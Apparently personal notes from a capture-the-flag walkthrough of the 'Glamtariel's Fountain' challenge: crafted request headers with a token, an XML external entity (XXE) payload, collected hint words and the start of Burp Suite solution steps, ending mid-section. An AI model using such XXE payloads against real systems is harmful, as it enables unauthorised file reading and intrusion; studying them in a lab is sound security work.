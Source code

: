 Below the `Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"` section need to add 

```
Accept: application/xml
Content-Type: application/xml
X-Grinchum: IjE0MTc0ZjMzOTliNDE5M2UwZTM5ZTg0YmU4ZGZhMmI1ODBjMjRhNGUi.Y6xeoQ.dg1nAejl4FWvhmTdCqYVdsaXyAQ
```

```
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http:////glamtarielsfountain.com/static/images"> ]>
<root>
  <imgDrop>img1</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

Bold words from conversations.

I have PATH
TAMPER
TRAFFIC FLIES
TYPE
RINGLIST
APP 

Other maybe useful stuff? Silverring?

Grinchun path `https://glamtarielsfountain.com/static/images/grinchum-supersecret_9364274.png`

* * *
* * *
# Solution
Got help after watching the Youtube video by Hackerman, this was the only one I didn't figure out on my own.

Throw the URL into Burp Suite
Step through all the drag and drop of the icons until you get to the rings. 

### First request and response
